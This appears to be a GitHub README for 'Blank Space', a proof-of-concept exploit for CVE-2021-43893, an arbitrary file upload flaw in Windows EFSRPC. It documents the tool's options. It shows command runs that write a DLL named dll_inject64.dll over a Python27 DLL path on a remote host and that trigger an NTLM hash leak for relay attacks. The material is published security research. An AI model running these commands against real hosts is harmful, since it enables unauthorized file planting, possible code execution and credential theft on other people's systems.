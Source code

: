 # blankspace

Proof of Concept for EFSRPC Arbitrary File Upload  (CVE-2021-43893)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/jbaines-r7](https://github.com/jbaines-r7) |
| Url      | [https://github.com/jbaines-r7/blankspace](https://github.com/jbaines-r7/blankspace)                                               |
| Stars    | 57                                                          |
| License  | BSD 3-Clause "New" or "Revised" License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-43893* exploit* poc* windows

</details>

## Readme

# Blank Space

Blank Space is a refactoring of James Forshaw's [original proof of concept](https://www.youtube.com/watch?v=e-ORhEE9VVg) for [CVE-2021-43893](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43893), [EFSRPC arbitrary file upload privilege escalation](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-43893). Blank Space can create arbitrary files on a remote host that is using unconstrained delegation if it isn't patched for CVE-2021-43893. File creation is done using the privileges of the remote user, so code execution is a bit speculative but defintely a possibility. Blank Space can also be used to begin a relay attack even after CVE-2021-43893 has been patched. Similarly, admin users can overwrite existing files, although that arguably doesn't cross a security boundary.

Examples of both code execution, relay attacks, and file destruction are available in a Rapid7 blog I wrote. The PoC assuming the executing user can authenticate to the remote host.


## Usage

### Options

Blank Space always requires a remote host (`--rhost`) and a remote filename (`--filename`). CVE-2021-43893 is sort of specific to `\\.\C:\` filepaths, but I've left it up to the user how they define a path (e.g. `\\localhost\sharename` or `\\remotehost\share` are valid options depending on what you are doing).


```
C:\Users\lowlevel\blankspace\Release>.\blankspace.exe
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
option "rhost" is required
Available options:
  -h, --help              Produces a help message
  -r, --rhost arg         The remote host to target
  -f, --filename arg      The name of the file to create/write to
  -s, --input-string arg  A string of data to write
  -i, --input-file arg    A string of data to write
  --relay                 Initiate NTLM hash leak
  --directory             Create a directory
```

### Creating a remote file using a file

```
C:\ProgramData>.\blankspace.exe -r vulnerable.okhuman.ninja -f \\.\C:\Python27\fveapi.dll -i ./dll_inject64.dll
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
[+] Creating EFS RPC binding handle to vulnerable.okhuman.ninja
[+] Attempting to write to \\.\C:\Python27\fveapi.dll
[+] Encrypt the empty remote file...
[+] Reading the encrypted remote file object
[+] Read back 1244 bytes
[+] Writing 92160 bytes of attacker data to encrypted object::$DATA stream
[+] Decrypt the the remote file
[!] Success!

C:\ProgramData>
```

### Creating a remote file using a string

```
C:\Users\lowlevel\blankspace\Release>.\blankspace.exe -r 10.0.0.6 -f \\.\C:\ProgramData\hello -s "hello world!"
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
[+] Creating EFS RPC binding handle to 10.0.0.6
[+] Attempting to write to \\.\C:\ProgramData\hello
[+] Encrypt the empty remote file...
[+] Reading the encrypted remote file object
[+] Read back 1244 bytes
[+] Writing 12 bytes of attacker data to encrypted object::$DATA stream
[+] Decrypt the the remote file
[!] Success!

C:\Users\lowlevel\blankspace\Release>
```


### Triggering a relay

```
C:\ProgramData>blankspace.exe -r yeet.okhuman.ninja -f \\10.0.0.3\r7\r7 --relay
 ____    ___                    __          ____
/\  _`\ /\_ \                  /\ \        /\  _`\
\ \ \L\ \//\ \      __      ___\ \ \/'\    \ \,\L\_\  _____      __      ___     __
 \ \  _ <'\ \ \   /'__`\  /' _ `\ \ , <     \/_\__ \ /\ '__`\  /'__`\   /'___\ /'__`\
  \ \ \L\ \\_\ \_/\ \L\.\_/\ \/\ \ \ \\`\     /\ \L\ \ \ \L\ \/\ \L\.\_/\ \__//\  __/
   \ \____//\____\ \__/.\_\ \_\ \_\ \_\ \_\   \ `\____\ \ ,__/\ \__/.\_\ \____\ \____\
    \/___/ \/____/\/__/\/_/\/_/\/_/\/_/\/_/    \/_____/\ \ \/  \/__/\/_/\/____/\/____/
                                                        \ \_\
                                                         \/_/
[+] Creating EFS RPC binding handle to yeet.okhuman.ninja
[+] Sending EfsRpcDecryptFileSrv for \\10.0.0.3\r7\r7
[-] EfsRpcDecryptFileSrv failed with status code: 53
[+] Network path not found error received!
[!] Success!
C:\ProgramData>
```


## Credit

* James Forshaw - [Original issue discovery and proof of concept](https://bugs.chromium.org/p/project-zero/issues/detail?id=2228)
* [Taylor Swift](https://www.youtube.com/watch?v=e-ORhEE9VVg)



## Get the content

```
git clone https://github.com/jbaines-r7/blankspace
cd blankspace
```

{% embed url="https://github.com/jbaines-r7/blankspace" %}

<figure><img src="https://avatars.githubusercontent.com/u/91965877?v=4" alt=""><figcaption><p>jbaines-r7</p></figcaption></figure>
